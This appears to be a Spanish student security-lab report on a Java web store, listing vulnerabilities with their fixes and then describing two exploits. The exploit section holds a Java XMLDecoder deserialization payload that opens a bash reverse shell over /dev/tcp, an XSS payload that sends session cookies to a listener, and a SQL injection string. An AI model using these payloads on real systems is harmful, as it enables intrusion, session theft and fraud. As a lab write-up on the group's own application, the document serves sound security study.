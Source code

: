 ###### por Sergio Luaces Martín, Diego Dopazo García y Aarón yada yada

# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 
- XSS en el login
		Se ha detectado que en varios casos donde se permite al usuario iniciar sesión, poniendo los tags de script, se puede ejecutar código arbitrario.
		Aparte de en el caso del login, también ocurre en otros casos donde se le permite al usuario escribir texto.
		Se ha solucionado...
- SQLi en el login
		Se ha detectado que el formulario de autenticación concatenaba directamente los valores introducidos por el usuario en la consulta JPQL/SQL, permitiendo modificar la query ejecutada en el servidor mediante técnicas de SQL Injection (por ejemplo, usando `admin' OR '1'='1`).  
		Esto podría permitir acceder a cuentas sin conocer las credenciales correctas o revelar información sensible de la base de datos.
		Se ha solucionado eliminando la construcción dinámica del JPQL y sustituyéndola por consultas parametrizadas, evitando que el valor introducido por el usuario pueda alterar la query.  
		En concreto, se ha reemplazado el uso de `MessageFormat.format(...)` por queries con parámetros `:email` y `:password`, utilizando `TypedQuery` y `setParameter()`:

```java
	TypedQuery<User> query = entityManager.createQuery("SELECT u FROM User u WHERE u.email = :email AND u.password = :password", User.class);
```

````java
query.setParameter("email", email); query.setParameter("password", password);
`````
		
   De este modo, el input del usuario se envía de forma segura al motor JPA, imposibilitando que la consulta sea manipulada.

- File upload en la foto de perfil
		Se ha detectado que la funcionalidad de “subir imagen de perfil” aceptaba ficheros que no eran imágenes legítimas, permitiendo la subida de ficheros maliciosos (por ejemplo polyglots o archivos con payloads ocultos) que podrían llevar a la ejecución de scripts u otra actividad no deseada.
		Se ha solucionado verificando de forma exhaustiva el contenido del fichero subido usando `PngReader` de la librería **pngj**: antes de aceptar el archivo se analiza el cuerpo completo del fichero y se comprueba que cumple la estructura y los chunks válidos de un PNG. Solo se admiten ficheros que pasan esta validación; el resto se rechaza. Con ello se evita que ficheros no-PNG o PNG malformados lleguen al almacenamiento o al procesamiento posterior.
- Bussines logging en el precio a la hora de pagar
- Information disclosure (Los errores que se muestran en la página)
- Insecure Deserialization (cookie: user-info)
- Access control (puedes comentar sin haber comprado el producto)
- Validacion de datos en la capa modelo (usuario)
- Validación de datos en formularios
- Exposición de información sensible
- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
   Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````
- Open Redirect en el flujo de autenticación, concretamente en el parámetro next de /login?next=...  
- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:

![user-info](./img/cookie_user_info.png)

Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.

![nc](./img/rev_shell_prove.png)

> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:

![xss](./img/insert_xss.png)

Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:

![peticion](./img/peticion_server.png)

Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  
![perfil](./img/victim_profile.png)

![exploit_2_prueba](./img/prueba_exploit_dos.png)
